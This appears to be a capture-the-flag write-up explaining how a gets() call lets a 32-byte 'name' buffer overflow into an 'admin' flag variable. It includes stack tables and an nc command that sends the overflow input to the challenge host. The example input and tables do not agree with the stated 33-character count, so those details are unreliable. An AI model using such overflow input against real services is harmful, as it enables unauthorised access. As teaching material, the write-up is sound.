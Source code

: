 
## Writeup

The source [file](../src/vuln.c) contain two variables located on the stack; `name` and `admin`.
`name` is the 32-bytes sized input buffer we are writing into with the vulnerable function `gets()`.
`admin` is our overflow target variable which we want to overwrite with any other value than `"\0"` as input.

The following is a depiction of the stack:

|      Variables |  Hex-values (8 bytes/row) |      Ascii Characters    |
|---------------:|:-------------------------:|:------------------------:|
|       admin -> |  00 00 00 00 00 00 00 00  |  \0 \0 \0 \0 \0 \0 \0 \0 |
| name[24:32] -> |  02 00 00 00 00 00 00 00  |  \0 \0 \0 \0 \0 \0 \0 \0 |
| name[16:24] -> |  ff fb 8b 1f 00 00 00 00  |  \0 \0 \0 \0 \0 \0 \0 \0 |
|  name[8:16] -> |  d9 45 e6 4a fc 7f 00 00  |  \0  E \0  J \0 \0 \0 \0 |
|   name[0:8] -> |  64 00 00 00 00 00 00 00  |   d \0 \0 \0 \0 \0 \0 \0 |
|         rip -> |  00 00 00 00 00 00 00 00  |  \0 \0 \0 \0 \0 \0 \0 \0 |
|         rbp -> |  00 00 00 00 00 00 00 00  |  \0 \0 \0 \0 \0 \0 \0 \0 |

Therefore, we need to input 33 characters where the 33rd one is not `"\0"`, e.g.
```bash
echo "0000111122223333444455556666777788889999aaaa<non-zero-bytes>" | nc <host> 9001
```

And this will edit the above table into:

|      Addresses |  Hex-values (8 bytes/row) |     Ascii Characters     |
|---------------:|:-------------------------:|:------------------------:|
|       &admin -> |  00 00 00 00  {non-zero}  |  \0 \0 \0 \0 {non-zero} |
| &name[24:32] -> |  37 37 37 37 36 36 36 36  |   7  7  7  7  6  6  6  6 |
| &name[16:24] -> |  35 35 35 35 34 34 34 34  |   5  5  5  5  4  4  4  4 |
|  &name[8:16] -> |  33 33 33 33 32 32 32 32  |   3  3  3  3  2  2  2  2 |
|   &name[0:8] -> |  31 31 31 31 30 30 30 30  |   1  1  1  1  0  0  0  0 |
|          rip -> |  00 00 00 00 00 00 00 00  |  \0 \0 \0 \0 \0 \0 \0 \0 |
|          rbp -> |  00 00 00 00 00 00 00 00  |  \0 \0 \0 \0 \0 \0 \0 \0 |

Compile and run this test [file](dump.c) for a more code and output explanation.
